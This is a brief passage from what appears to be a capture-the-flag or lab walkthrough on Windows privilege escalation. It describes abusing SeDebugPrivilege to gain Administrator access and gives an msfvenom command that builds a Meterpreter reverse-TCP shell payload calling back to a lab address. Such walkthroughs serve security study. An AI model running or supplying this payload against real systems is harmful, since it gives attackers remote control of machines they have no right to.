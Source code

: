 ![img_11.png](img/img_11.png)

- Now that we have `SeDebugPrivilege` enabled, we can upload a Meterpreter Shell to the machine and gain leverage access as Administrator:

![img_12.png](img/img_12.png)


- Use the following payload to generate the reverse shell:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.37 LPORT=5555 -f exe -o payload.exe
```

- And voilà!!

![img_13.png](img/img_13.png)
